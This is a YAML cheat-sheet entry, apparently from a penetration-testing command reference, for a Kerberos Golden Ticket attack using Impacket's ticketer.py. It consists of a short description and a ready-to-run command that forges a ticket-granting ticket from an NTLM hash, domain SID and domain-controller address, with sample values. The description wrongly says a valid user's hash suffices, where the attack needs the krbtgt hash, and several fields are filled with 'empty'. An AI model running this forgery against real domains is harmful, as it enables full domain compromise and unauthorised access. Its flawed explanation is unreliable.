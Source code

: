 ```yaml
---
description: |
  Impacket's ticketer.py can perform Golden Ticket attacks, which crafts a valid TGT ticket using a valid user's NTLM hash. It is then possible to access any service using the TGT by requesting a TGS for that service.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

items:
  Username:
    - code: |
        python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 john
  Hash:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

